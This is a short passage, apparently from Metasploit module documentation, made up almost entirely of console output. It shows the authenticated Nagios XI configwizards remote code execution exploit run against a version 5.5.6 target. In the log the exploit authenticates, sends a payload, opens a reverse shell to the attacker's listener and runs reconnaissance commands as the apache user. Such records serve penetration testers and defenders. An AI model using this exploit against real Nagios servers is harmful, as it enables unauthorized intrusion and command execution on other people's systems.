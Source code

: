 ```
   2   CMD



View the full module info with the info, or info -d command.

msf6 exploit(linux/http/nagios_xi_configwizards_authenticated_rce) > exploit

[*] Started reverse SSL handler on 192.168.104.2:8443 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Attempting to authenticate to Nagios XI...
[+] Successfully authenticated to Nagios XI.
[*] Target is Nagios XI with version 5.5.6.
[+] The target appears to be vulnerable.
[*] Sending the payload...
[*] Command shell session 1 opened (192.168.104.2:8443 -> 192.168.104.18:58930) at 2023-02-07 14:27:41 -0500
id
uid=48(apache) gid=48(apache) groups=48(apache),1000(nagios),1001(nagcmd)
whoami
apache
uname -a
Linux localhost.localdomain 3.10.0-862.14.4.el7.x86_64 #1 SMP Wed Sep 26 15:12:11 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux
```
